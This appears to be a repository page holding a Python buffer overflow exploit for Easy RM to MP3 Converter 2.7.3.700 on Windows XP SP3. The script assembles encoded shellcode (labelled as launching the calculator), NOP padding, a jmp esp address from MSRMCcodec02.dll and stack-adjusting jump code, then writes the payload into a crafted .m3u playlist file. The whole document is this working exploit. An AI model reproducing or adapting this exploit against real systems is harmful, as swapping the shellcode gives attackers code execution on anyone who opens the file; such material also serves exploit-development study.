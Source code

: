 
### `Exploit`

```python
# EasyRMtoMP3Converter 2.7.3.700 Buffer Overflow Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*40 + calc  + b"\x90"*(26105-len(calc)-40)
ebp = b"B"*4
eip = b"\xB4\x39\xCD\x01" # jmp esp - MSRMCcodec02.dll
pre_esp = b"AAAA"

jump_code = (
	b"\x83\xc4\x14" # add esp, 0x14
	b"\x83\xc4\x14" # add esp, 0x14
	b"\xff\xe4"     # jmp esp
)

exp = padding + ebp + eip + pre_esp + jump_code

# File path
file = "EasyRMtoMP3Converter/custom_jumpcode.m3u"
# File Create
f = open(file, "wb")
f.write(exp)
f.close()
```
